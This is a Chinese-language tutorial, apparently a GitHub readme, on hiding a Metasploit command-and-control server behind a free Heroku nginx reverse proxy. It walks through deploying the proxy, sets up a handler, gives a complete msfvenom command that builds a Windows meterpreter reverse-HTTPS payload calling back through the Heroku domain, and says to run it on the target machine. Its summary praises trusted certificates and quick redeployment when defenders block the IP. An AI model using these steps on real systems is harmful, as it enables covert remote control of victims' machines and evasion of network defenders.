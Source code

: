 # 利用heroku隐藏C2服务器
Heroku是一个支持多种编程语言的云平台即服务。简单理解就是可以免费部署docker容器并且可以开放web服务到互联网.下面介绍操作步骤.

- 首先注册Heroku账号，点击通过 [https://dashboard.heroku.com](https://dashboard.heroku.com/) 注册一个账号 (推荐使用gmail)
- 注册成功以后登录，登录以后点击 [部署链接](https://dashboard.heroku.com/new?template=https://github.com/zhuwen/nginx-proxy-heroku),
- app名称填写为 `mydiydomain` (可自定义,名称为后续域名前缀)，TARGET环境变量填写为C2的handler地址

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603771065455-e03973a0-8763-4402-8b92-db358f8d0b1f.png#align=left&display=inline&height=488&margin=%5Bobject%20Object%5D&name=image.png&originHeight=976&originWidth=1224&size=76155&status=done&style=none&width=612)

- 然后点击 Deploy app 系统会自动部署.
- 在metasploit-framework中添加handler,配置如图

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603771665090-ad5c1ecd-c257-44f3-9128-4430183a2e34.png#align=left&display=inline&height=191&margin=%5Bobject%20Object%5D&name=image.png&originHeight=381&originWidth=1334&size=59756&status=done&style=none&width=667)![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603771713694-163331e4-cb96-4bb9-aa79-84980ab9c4ee.png#align=left&display=inline&height=155&margin=%5Bobject%20Object%5D&name=image.png&originHeight=309&originWidth=2281&size=88820&status=done&style=none&width=1140.5)


- 执行 `to_handler` 生成listener
- 使用如下命令生成payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=mydiydomain.herokuapp.com LPORT=443 -f exe -o ~/payload.exe
```

- 上传运行目标机器运行即可
# 运行效果

- 在metasploit-framework中查看session如下,可以看到session的链接地址为heroku中转服务器地址

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772048769-0192b120-768f-45ef-986f-4c13d4c1fae4.png#align=left&display=inline&height=133&margin=%5Bobject%20Object%5D&name=image.png&originHeight=265&originWidth=1737&size=32159&status=done&style=none&width=868.5)

- 在目标机抓包效果如下

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772254394-2251f568-89ae-48de-9c55-36b864bbffb0.png#align=left&display=inline&height=33&margin=%5Bobject%20Object%5D&name=image.png&originHeight=66&originWidth=802&size=6382&status=done&style=none&width=401)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772434299-3721e8f1-0eae-4296-b735-a741b20830d8.png#align=left&display=inline&height=230&margin=%5Bobject%20Object%5D&name=image.png&originHeight=459&originWidth=1612&size=144248&status=done&style=none&width=806)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772464467-3e81edaf-c634-42de-8e79-8ef5091a7c03.png#align=left&display=inline&height=768&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1535&originWidth=1296&size=272442&status=done&style=none&width=648)
# 总结
heroku隐藏C2从技术原理上看非常简单,使用heroku服务部署nginx反向代理服务,payload连接heroku的nginx,nginx将流量转发到C2.具体优势如下:

- 只需要注册heroku免费账号即可
- 无需注册或购买域名
- 自带可信的SSL证书(heroku域名自带证书)
- 如果IP地址被封锁,可删除原有heroku app重新部署heroku app(大约需要30s),与防守人员持续对抗
- 操作步骤简单
